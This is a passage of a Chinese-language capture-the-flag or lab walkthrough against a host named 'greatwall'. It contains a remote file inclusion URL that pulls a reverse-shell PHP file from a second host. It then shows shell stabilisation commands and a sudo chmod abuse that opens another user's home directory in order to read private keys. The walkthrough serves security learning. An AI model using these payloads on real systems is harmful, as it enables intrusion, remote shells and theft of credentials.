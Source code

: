 ```bash
http://192.168.182.129/?page=http://192.168.182.128/revshell.php
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506190103382.png" alt="image-20250618234239548" style="zoom:50%;" />

反弹过来了。。。。。

## 提权

### 稳定shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
# stty size
stty raw -echo; fg
stty rows 50 columns 200
```

### sudo chmod读取私钥

具体不会可以参考：https://gtfobins.github.io/gtfobins/chmod/#sudo

总之就是遇到啥就干掉啥就好了，记得恢复权限，不然 ssh 无法正常进行登录。。。。

```bash
www-data@greatwall:/tmp$ cd ~
www-data@greatwall:~$ ls -la
total 12
drwxr-xr-x  3 root root 4096 May 10 19:18 .
drwxr-xr-x 12 root root 4096 May 10 19:18 ..
drwxr-xr-x  2 root root 4096 May 11 02:07 html
www-data@greatwall:~$ cd /home
www-data@greatwall:/home$ ls -la
total 12
drwxr-xr-x  3 root root 4096 May 10 18:54 .
drwxr-xr-x 18 root root 4096 May 10 18:53 ..
drwx------  4 wall wall 4096 May 11 02:41 wall
www-data@greatwall:/home$ cd wall
bash: cd: wall: Permission denied
www-data@greatwall:/home$ sudo -l
Matching Defaults entries for www-data on greatwall:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on greatwall:
    (wall) NOPASSWD: /bin/chmod
www-data@greatwall:/home$ sudo -u wall /bin/chmod 777 /home/wall/
www-data@greatwall:/home$ ls -la
total 12
drwxr-xr-x  3 root root 4096 May 10 18:54 .
drwxr-xr-x 18 root root 4096 May 10 18:53 ..
drwxrwxrwx  4 wall wall 4096 May 11 02:41 wall
www-data@greatwall:/home$ cd wall
www-data@greatwall:/home/wall$ ls -la
total 32
drwxrwxrwx 4 wall wall 4096 May 11 02:41 .
drwxr-xr-x 3 root root 4096 May 10 18:54 ..
lrwxrwxrwx 1 root root    9 May 11 00:15 .bash_history -> /dev/null
-rwx------ 1 wall wall  220 May 10 18:54 .bash_logout
-rwx------ 1 wall wall 3526 May 10 18:54 .bashrc
drwx------ 3 wall wall 4096 May 11 00:18 .local
-rwx------ 1 wall wall  807 May 10 18:54 .profile
```